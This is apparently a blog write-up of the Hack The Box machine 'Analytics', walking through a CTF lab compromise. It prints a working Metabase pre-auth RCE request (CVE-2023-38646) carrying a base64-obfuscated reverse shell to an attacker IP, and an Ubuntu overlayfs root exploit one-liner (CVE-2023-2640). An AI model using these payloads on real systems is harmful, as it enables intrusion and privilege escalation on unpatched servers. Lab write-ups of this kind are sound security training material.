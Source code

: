 ```yaml
---
layout: page
title: Analytics
img: assets/img/writeups/hackthebox/Analytics/analytics_logo.png
importance: 1
category: hackthebox
---
```


## Foothold
Port scanning - 22, 80 (default)
{% include figure.html path="assets/img/writeups/hackthebox/Analytics/analytics_nmap.png" title="example image" class="img-fluid rounded z-depth-1" %}

Looking at SSH have no sense, our goal is web. Browser tells our target domain is analytical.htb - add that address to /etc/hosts config file. 

{% include figure.html path="assets/img/writeups/hackthebox/Analytics/analytics_site1.png" title="example image" class="img-fluid rounded z-depth-1" %}

Site contains no intersting things, but login button will trying redirect to data.analytics.htb. Add new note in /etc/hosts and it will meet Metabase - open source business-analytic tool.

Firstly, trying some googling to find exploits and CVEs of that application. Finally found a well-described page of [CVE-2023-38646](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/) from Assetnote.

## User
Let's skip the detailed description of CVE. Main moment is setup token that was not deleted. User able to use that token in some privileged actions.

Check if the setup-token in open access using a path /api/sessions/properties.

{% include figure.html path="assets/img/writeups/hackthebox/Analytics/analytics_setup_token.png" title="example image" class="img-fluid rounded z-depth-1" %}

Time to gain reverse shell via crafted request using that setup token.

```HTTP
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Accept: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Content-Type: application/json
Referer: http://data.analytical.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
Content-Length: 821

{
        "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
        "details": {
            "is_on_demand": false,
            "is_full_sync": false,
            "is_sample": false,
            "refingerprint": false,
            "auto_run_queries": true,
            "schedules": {},
            "details": {
                "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMjYvOTAwMCAwPiYx}|{base64,-d}|{bash,-i}')\n$$--=x",
                "advanced-options": false,
                "ssl": true
            },
            "name": "test",
            "engine": "h2"
        }
    }
```

Catching a shell, and it's a docker container.

{% include figure.html path="assets/img/writeups/hackthebox/Analytics/analytics_docker_shell.png" title="example image" class="img-fluid rounded z-depth-1" %}

Time to enumerate docker container, [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) can help in that process. 
There is a password for user metabase in enviroment variable.

{% include figure.html path="assets/img/writeups/hackthebox/Analytics/analytics_docker_var.png" title="example image" class="img-fluid rounded z-depth-1" %}

Connect via SSH to victim host with these credentials and get user.

{% include figure.html path="assets/img/writeups/hackthebox/Analytics/analytics_ssh.png" title="example image" class="img-fluid rounded z-depth-1" %}

## Root

Again enumeration linpeas gave nothing. Only a rabit hole.
Googling for new Privescs in linux in 2023 and it's [CVE-2023-2640](https://www.rapid7.com/db/vulnerabilities/ubuntu-cve-2023-2640/). 
Exploit for abusing overlayfs:

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"bash\")'";rm -rf l u w m
```

{% include figure.html path="assets/img/writeups/hackthebox/Analytics/analytics_root.png" title="example image" class="img-fluid rounded z-depth-1" %}